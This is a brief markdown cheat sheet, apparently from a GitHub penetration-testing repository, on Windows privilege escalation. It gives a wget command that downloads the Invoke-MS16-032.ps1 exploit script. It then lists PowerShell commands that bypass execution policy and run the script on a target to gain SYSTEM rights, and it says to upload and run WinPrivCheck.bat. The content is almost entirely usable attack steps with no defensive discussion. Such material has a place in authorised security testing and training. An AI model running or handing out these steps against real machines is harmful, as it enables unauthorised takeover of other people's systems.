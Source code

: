 # Windows Privilege Escalation

## Exploit ms16_032

`wget [Invoke-MS16-032.ps1](https://github.com/kraloveckey/venom/tree/master/penetration-testing/CheatSheets/Windows/priv_esc/Invoke-MS16-032.ps1)`

#### Upload it to the target and through the powershell command line execute:

```bash
> powershell -ExecutionPolicy Bypass
> Import-Module .\Invoke-MS16-032.ps1
> Invoke-MS16-032
```

##### Done, if everything worked fine, you're now system user.

## WinPrivCheck.bat

##### Upload it to the target and run through terminal

```cmd
WinPrivCheck.bat
```